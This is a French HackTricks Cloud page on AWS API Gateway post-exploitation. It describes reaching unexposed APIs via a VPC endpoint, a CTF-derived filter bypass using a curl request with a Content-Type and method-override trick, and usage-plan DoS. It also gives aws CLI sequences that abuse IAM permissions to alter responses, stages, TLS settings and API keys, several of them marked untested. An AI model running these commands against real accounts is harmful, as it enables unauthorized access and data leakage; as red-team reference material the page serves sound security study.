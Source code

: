 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}

## API Gateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accéder aux APIs non exposées

Vous pouvez créer un endpoint dans [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) avec le service `com.amazonaws.us-east-1.execute-api`, exposer l'endpoint dans un réseau où vous avez accès (potentiellement via une machine EC2) et assigner un groupe de sécurité permettant toutes les connexions.\
Ensuite, depuis la machine EC2, vous pourrez accéder à l'endpoint et donc appeler l'API gateway qui n'était pas exposée auparavant.

### Contourner le passage du corps de la requête

Cette technique a été trouvée dans [**ce writeup de CTF**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp).

Comme indiqué dans la [**documentation AWS**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) dans la section `PassthroughBehavior`, par défaut, la valeur **`WHEN_NO_MATCH`**, lors de la vérification de l'en-tête **Content-Type** de la requête, passera la requête au back end sans transformation.

Par conséquent, dans le CTF, l'API Gateway avait un modèle d'intégration qui **empêchait l'exfiltration du drapeau** dans une réponse lorsqu'une requête était envoyée avec `Content-Type: application/json` :

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Cependant, envoyer une requête avec **`Content-type: text/json`** empêcherait ce filtre.&#x20;

Enfin, comme l'API Gateway ne permettait que `Get` et `Options`, il était possible d'envoyer une requête dynamoDB arbitraire sans aucune limite en envoyant une requête POST avec la requête dans le corps et en utilisant l'en-tête `X-HTTP-Method-Override: GET` :

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Dans la section **Enumeration**, vous pouvez voir comment **obtenir le plan d'utilisation** des clés. Si vous avez la clé et qu'elle est **limitée** à X utilisations **par mois**, vous pourriez **simplement l'utiliser et provoquer un DoS**.

La **clé API** doit simplement être **incluse** dans un **en-tête HTTP** appelé **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateGatewayResponse` et `apigateway:CreateDeployment` peut **modifier une réponse de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact Potentiel**: Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources de l'API.

{% hint style="info" %}
Besoin de test
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateStage` et `apigateway:CreateDeployment` peut **modifier une étape existante de l'API Gateway pour rediriger le trafic vers une autre étape ou changer les paramètres de mise en cache pour obtenir un accès non autorisé aux données mises en cache**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact Potentiel**: Accès non autorisé aux données mises en cache, perturbation ou interception du trafic API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:PutMethodResponse` et `apigateway:CreateDeployment` peut **modifier la réponse de méthode d'une méthode API Gateway REST API existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact Potentiel**: Fuite d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources de l'API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaquant avec les permissions `apigateway:UpdateRestApi` et `apigateway:CreateDeployment` peut **modifier les paramètres de l'API Gateway REST API pour désactiver la journalisation ou changer la version minimale de TLS, ce qui peut potentiellement affaiblir la sécurité de l'API**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Impact Potentiel** : Affaiblissement de la sécurité de l'API, pouvant potentiellement permettre un accès non autorisé ou exposer des informations sensibles.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaquant avec les permissions `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, et `apigateway:CreateUsagePlanKey` peut **créer de nouvelles clés API, les associer à des plans d'utilisation, puis utiliser ces clés pour un accès non autorisé aux APIs**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Impact Potentiel**: Accès non autorisé aux ressources API, contournant les contrôles de sécurité.

{% hint style="info" %}
Besoin de tests
{% endhint %}

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
